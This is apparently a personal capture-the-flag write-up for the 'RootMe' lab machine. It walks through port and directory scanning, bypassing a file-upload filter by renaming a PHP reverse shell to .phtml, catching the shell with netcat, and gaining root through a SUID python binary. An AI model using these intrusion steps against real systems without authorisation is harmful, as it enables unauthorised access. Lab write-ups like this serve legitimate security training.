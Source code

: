 RootMe

Task 2. Reconnaisance, general information about the target. 
    Linked IP of attach machine to 'rootme.thm' using (sudo nano /etc/hosts)
    - How many ports are open. (2)
        nmap rootme.thm -T5 -v 
            - 22/tcp open ssh
            - 80/tcp open http
    - What version of Apache is running. (2.4.29)
        nmap rootme.thm -sV -T5
            - 80/tcp open http  Apache httpd 2.4.29 ((Ubuntu))
    - What service is running on port 22. (ssh)
        nmap rootme.thm -T5 -v
            - 22/tcp open ssh
    - Find directories on the web server using the GoBuster tool. 
        gobuster -e -u rootme.thm -w common.txt 
            - cd into location of common.txt to simplify 
            - Output listed directories on the webserver, including /panel
    - What is the hidden directory. (/panel/)   

Task 3. Getting a shell, upload file and get a reverse shell 
    -Once on '(rootme.thm)./panel' I coudl upload a file to the server
    - Used the php_reverse_shell.php from https://github.com/pentestmonkey/php-reverse-shell 
        - changed listening ip in file to my ip 
        - uploaded to server and got an error stating php files were not allowed
        - changed name of file from .php to .phtml (idea came from https://book.hacktricks.xyz/pentesting-web/file-upload)
        - This worked and I confirmed by checking 'rootme.thm/uploads' which was another directory I found using GoBuster
        - Next, set up listener to receive a connection with the shell 
            nc -nlvp 1234 
        - Once in shell, ran 'find / -type f -name user.txt' to find file
        - cat /var/www/user.txt gave me the flag
Task 4. Privilege escalation, escalate privileges to root
    - Search for files with SUID permission, which file is weird? 
        find / -type f -user root -perm -u=s
            - this showed me files with SUID permission 
            - /usr/bin/python, was the weird file 
    - Find a form to escalate your privileges 
        python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
            - got this from https://gtfobins.github.io/gtfobins/python/
            - this escalated my priveleges to root
    - root.txt
        find / -type f -name root.txt 2> /dev/null
        cat /root/root.txt
            - This gave final flag



